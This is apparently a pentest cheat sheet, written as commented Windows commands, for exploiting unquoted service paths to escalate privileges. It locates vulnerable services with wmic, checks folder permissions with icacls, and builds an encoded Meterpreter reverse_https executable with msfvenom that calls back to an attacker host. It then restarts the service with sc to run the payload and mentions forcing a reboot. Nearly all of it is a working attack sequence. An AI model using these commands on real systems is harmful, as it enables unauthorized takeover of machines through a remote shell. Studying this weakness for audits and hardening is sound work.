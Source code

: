 # Unquoted Winddows Services... quick win!
# In short - if a dev creates a service and fails to enclose the service path in quotes
# it will try each word prior to a space as a separate file.  Example:
# C:\Program Files\Some Folder\Service.exe
# It will try: C:\Program.exe; C:\Program Files\Some.exe; C:\Program Files\Some Folder\Service.exe
# The goal here is write a malicious payload into one of those spots...

# Locate such a service
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

# icacls will tell you if you have permissions to write there....
# Example of a service identified with wmic- C:\Program Files (x86)\Privacyware\Privatefirewall 7.0\pfsvc.exe
icacls "C:\Program Files (x86)\Privacyware"

# BUILTIN\Users:(OI)(CI)(M) <--- the M means modifiable

# Drop a payload of the same name
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o Privatefirewall.exe

# Now restart the service to trigger the path hijack
sc stop PFNet
sc start PFNet

# Keep in mind you may not always have perms to restart the service manually, and will need to wait for a reboot (or cause one another way...)
